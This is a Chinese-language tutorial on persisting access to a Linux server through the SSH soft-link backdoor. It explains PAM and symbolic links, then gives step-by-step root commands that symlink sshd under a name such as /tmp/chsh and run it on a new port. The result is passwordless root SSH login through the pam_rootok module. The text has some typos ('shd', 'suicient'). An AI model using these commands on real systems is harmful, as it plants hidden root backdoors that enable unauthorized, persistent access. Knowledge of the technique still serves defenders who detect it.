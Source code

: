 # 原理介绍

## **PAM**介绍

PAM认证一般遵循这样的顺序： Service(服务)→ PAM(配置文件)→ pam_*.so。 PAM认证首先要确定那一项服务 ，  然后加载相应的PAM的配置文件(位于/etc/pam.d下)， 最后调用认证文件(位于/lib/security下)进行安全认证， 用户 访问服务器的时候， 服务器的某一个服务程序把用户的谁请求发送到PAM模块进行认证。对于不同的服务器应用程

序所对应的PAM模块也是不同的。如果想查看某个程序是否支持PAM使用 `ls /etc/pam.d` ![img](https://img.gyxnb.top/img/clip_image002-168396103987662.gif)，

![img](https://img.gyxnb.top/img/clip_image004-168396103987763.gif)

## 软连接介绍

软连接称之为符号连接 ( Symbolic Link) ， 也叫软连接。软链接文件有类似于Windows的快捷方式。它实际上是

一个特殊的文件。在符号连接中， 文件实际上是一个文本文件， 其中包含的有另一文件的位置信息。 下来做个实验演示演示一下

```
 touch test.txt //创建test.txt文件  
 ln -fs /var/www/html/1.txt test.txt  
 cat test.txt 
```

![img](https://img.gyxnb.top/img/clip_image005-168396103987765.jpg)

`ln`命令介绍

```
-f, --force 强行删除任何已存在的目标文件
-s, --symbolic 制作符号链接而不是硬链接
```

# 后门原理

ssd软连接是 Linux下很经典的一种权限维持方法,其中涉及的一个比较重要的模块是“ `pam_rootok.so`”模块,

“pam_rootok.so”模块的功能是若用户UID是0,返回成功， 当“ /etc/pam. d/ssh”文件配置了“ auth suicient   pam_rootok.so”时可以不需要密码登录。

当在被控制端执行命令“`ln -sf /usr/sbin/shd /tmp/su;/tmp/su -oPort=1234`”建立shd的软连接后门,PAM认证时会根据软连接的名字到“/etc/pam. d”目录寻找对应到PAM认证文 件,

由于软连接的文件名为“su”,所以SSH的认证文件就被替换成了“`/ 'etc/pam.d/su`”,而“su”中默认配置了“ auth   suicient pam_rootok.so”,从而导致SSH可以不需要密码登录。

## 软连接维持                                        [ ](af://n23)

### 1、判断此计算机SSH是否开启了PAM认证

```
 cat /etc/ssh/sshd_config |grep UsePAM  
```

![img](https://img.gyxnb.top/img/clip_image006-168396103987764.jpg)

### 2、查看pmd.m文件下哪些文件配置了pam_rootok

```
 find /etc/pam.d |xargs  grep "pam_rootok"  
```

![img](https://img.gyxnb.top/img/clip_image008-168396103987766.gif)

### 3、以root权限建软连接

```
ln -sf /usr/sbin/sshd /tmp/chsh;/tmp/chsh -oPort=23333  

ln -sf /usr/sbin/sshd /tmp/chsh  建立sshd的软连接
/tmp/chsh -oPort=23333 更改端口为23333
```

### 4、进行登录

```
ssh root@[IP地址] -p [后门端口] 不需要密码(随便输密码) 

ssh root@192.168.41.134 -p 23333
```

![img](https://img.gyxnb.top/img/clip_image012-168396103987768.gif)